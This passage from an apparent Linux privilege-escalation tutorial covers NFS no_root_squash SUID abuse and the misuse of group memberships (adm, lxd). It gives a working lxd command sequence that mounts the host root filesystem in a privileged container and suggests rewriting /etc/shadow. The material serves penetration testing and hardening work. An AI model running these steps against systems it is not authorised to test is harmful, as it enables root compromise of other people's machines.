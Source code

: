 If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it.

**Further Reading**:  
[NFS, no\_root\_squash and SUID - Basic NFS Security](http://fullyautolinux.blogspot.co.uk/2015/11/nfs-norootsquash-and-suid-basic-nfs.html)  
[HackTheBox-Jail](https://reboare.github.io/htb/htb-jail.html#becoming-somebody)

## Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of. From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```bash
find / -group groupname 2>/dev/null
```

Secondly, it's probably a good idea to refer to the [Debian Recommendations](https://wiki.debian.org/SystemGroups), and see exactly what each one controls. I'll explain the most common I've seen and how they might enable you to escalate your privileges.

#### adm

The admin group, adm, allows the user to view logs in `/var/log`. Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

#### lxd

If a member of the lxd group, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

While you won't be able to run arbitrary code on the host directly, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the `/etc/shadow` file.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

#### docker
